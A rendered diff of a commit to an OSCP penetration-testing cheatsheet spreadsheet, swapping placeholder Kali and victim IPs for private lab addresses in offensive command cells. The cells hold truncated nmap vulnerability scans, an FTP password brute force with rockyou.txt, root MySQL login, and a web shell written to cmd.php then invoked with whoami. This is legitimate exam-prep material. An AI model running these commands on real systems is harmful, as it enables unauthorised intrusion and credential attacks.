

Before and after one commit to NurvX/OSCP-Cheatsheet, an Excel workbook: OSCP-checklist_v0.1.1.xlsm, sheet Commands, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures and table styles not drawn; addresses are those after the commit; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
+++ b/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
-B2: <kali_ip>
+B2: 192.168.178.65
-D2: <victim_ip>
+D2: 192.168.178.66
-E86: …--script ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 <victim_ip>
+E86: …--script ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 192.168.178.66
-E87: …/usr/share/wordlists/rockyou.txt -vV <victim_ip> ftp
+E87: …/usr/share/wordlists/rockyou.txt -vV 192.168.178.66 ftp
-E88: …--script mysql-info <victim_ip>
+E88: …--script mysql-info 192.168.178.66
-E89: …-Pn -T4 <victim_ip>
+E89: …-Pn -T4 192.168.178.66
-E92: mysql -u root@<victim_ip> -p
+E92: mysql -u root@192.168.178.66 -p
-E93: …-u -f <victim_ip> mysql
+E93: …-u -f 192.168.178.66 mysql
-E96: …'c:/xampp/htdocs/cmd.php'; ↵ firefox http://<victim_ip>/cmd.php?cmd=whoami
+E96: …'c:/xampp/htdocs/cmd.php'; ↵ firefox http://192.168.178.66/cmd.php?cmd=whoami
-E97: …--script ms-sql-info,ms-sql-ntlm-info <victim_ip>
+E97: …--script ms-sql-info,ms-sql-ntlm-info 192.168.178.66
-E98: …-Pn -T4 <victim_ip>
+E98: …-Pn -T4 192.168.178.66
```
Also changed, not shown: 12 added rows and 136 edited cells elsewhere in this sheet, sheet hostserver, sheet Redhat Post-Exploitation, charts or pictures.
